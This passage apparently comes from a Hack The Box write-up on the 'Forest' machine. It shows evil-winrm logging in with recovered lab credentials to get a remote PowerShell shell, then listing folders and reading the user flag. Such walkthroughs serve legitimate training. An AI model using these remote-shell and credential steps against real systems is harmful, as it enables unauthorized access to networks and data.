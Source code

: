 Now lets use ```evil-winrm``` to use ```PS-Remoting``` to gain shell,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> hostname
FOREST
```

Getting the secrets,

```c
*Evil-WinRM* PS C:\Users\svc-alfresco> dir


    Directory: C:\Users\svc-alfresco


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/23/2019   2:16 PM                Desktop
d-r---        9/22/2019   4:02 PM                Documents
d-r---        7/16/2016   6:18 AM                Downloads
d-r---        7/16/2016   6:18 AM                Favorites
d-r---        7/16/2016   6:18 AM                Links
d-r---        7/16/2016   6:18 AM                Music
d-r---        7/16/2016   6:18 AM                Pictures
d-----        7/16/2016   6:18 AM                Saved Games
d-r---        7/16/2016   6:18 AM                Videos


*Evil-WinRM* PS C:\Users\svc-alfresco> cd Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/26/2022  11:23 PM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> more user.txt
<USER FLAG>
```
